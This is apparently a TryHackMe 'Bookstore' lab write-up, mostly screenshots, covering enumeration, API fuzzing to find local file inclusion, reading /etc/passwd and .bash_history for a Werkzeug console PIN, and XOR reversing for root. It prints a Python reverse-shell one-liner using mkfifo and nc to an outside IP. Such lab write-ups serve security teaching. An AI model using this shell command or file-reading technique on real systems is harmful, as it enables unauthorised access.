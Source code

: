 # Bookstore TryHackMe Writeup
## Level: Medium

![logo](logo.jpeg)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](1.png)

## Enumeration
We list two web services on port 80 of this website:

![](2.png)

In the source code of the file *"login.html"* we list relevant information about a PIN that is stored in a file *.bash_history*

![](8.png)

And at port 5000:

![](3.png)

In the nmap capture, it listed the directory *"/api/"*, there we will be able to list several of the site's functionalities.

![](4.png)

We test the API and see that it works correctly from Burp.

![](5.png)

We use the **Nikto** tool and enumerate the directory *"/console/"*.

![](6.png)

We access to the directory and we see that it asks for a PIN to be able to unlock this functionality.

![](7.png)


## Exploitation
Searching on Google about the type of server and its PIN, I found this [documentation](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug)

To get the PIN, we would need to know a couple of parameters, but to get them we must be able to read some system files. 

Here the API will come into play, so we will do a brute force attack to enumerate some parameter that will help us to do LFI (Local File Inclusion).

We launched the **Wfuzz** tool with an average dictionary, in version 2 of the API we did not list anything new, but in version 1 we did.

#### API V2

![](9.png)

#### API V1

![](10.png)

If we access from the browser, we see that we can embed files (LFI).

![](11.png)

#### Flag user.txt

We exploit the vulnerability to be able to read the flag *user.txt*

![](12.png)


Recall that they mentioned that the PIN was being stored in the *.bash_history* file. Thanks to the */etc/passwd* file, we know the user names that contain home folder and we can enumerate the file and the access PIN.

![](13.png)

We use the PIN and now we have access to the interactive console.

![](14.png)

We use the following payload and we will have a reverse shell to the victim machine.

### Code Execute

``` python

__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f').read();

```

![](15.png)

### Reverse shell

![](16.png)


## Privilege Escalation

We checked the directory of the user *"sid"*, we found a binary that could be the way to escalate privileges, since it runs as the **root** user.

![](17.png)


We transfer the binary to our kali, check with the **Ghidra** tool and see the conditional where it calls the 3 parameters calculating the xor value. 


![](20.png)


But even if we are missing a parameter, we can obtain it by reversing the xor with the values we have.

![](21.png)

With the magic number in our hands, we insert it and we become root and read the flag of *root.txt*.


---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.pngg' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
